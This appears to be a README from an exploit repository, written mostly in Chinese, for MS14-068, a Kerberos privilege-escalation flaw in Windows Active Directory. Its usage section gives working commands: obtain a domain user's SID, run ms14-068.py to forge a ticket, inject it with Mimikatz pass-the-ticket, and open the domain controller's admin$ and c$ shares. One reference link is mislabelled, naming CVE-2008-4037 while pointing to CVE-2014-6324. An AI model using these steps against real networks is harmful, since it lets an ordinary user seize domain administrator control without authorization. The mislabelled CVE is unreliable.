



# MS14-068

```
将普通域用户权限提升为域控权限  
（漏洞利用后，netuse \\swg.server.com\c$可以直接访问域控的网络资源
```

Vulnerability reference:
 * [MS14-068](https://technet.microsoft.com/library/security/ms14-068)
 * [CVE-2008-4037](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6324)
 
## Usage

域管理员:DCwin03  域名:demo.com  普通域用户:hx

登录普通域用户hx，cmd中输入"whoami/user"获取sid  
demo/hx   S-1-5-21-3813283032-1038476579-1047458262-1110
  
  
  

退出域用户hx，登录本地用户123  
```
python ms14-068.py -u hx@demo.com -p pwd_of_hx -s S-1-5-21-3813283032-1038476579-1047458262-1110 -d DCwin03.demo.com  
```

  
```
c:\User\123>Mimikatz.exe "kerberos::ptc TGT_hx@demo.com.ccache" exit  
  
net use \\DCwin03\admin$  

dir \\DCwin03\c$
```


## References
* [Additional information about CVE-2014-6324](http://blogs.technet.com/b/srd/archive/2014/11/18/additional-information-about-cve-2014-6324.aspx)
* [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
* [Attack Methods for Gaining Domain Admin Rights in Active Directory](https://adsecurity.org/?p=2362)
* [MS14068域控提权漏洞及其防护](http://www.php230.com/weixin1418640395.html)
* [MS14-068 privilege escalation PoC](http://www.secpulse.com/archives/2874.html)

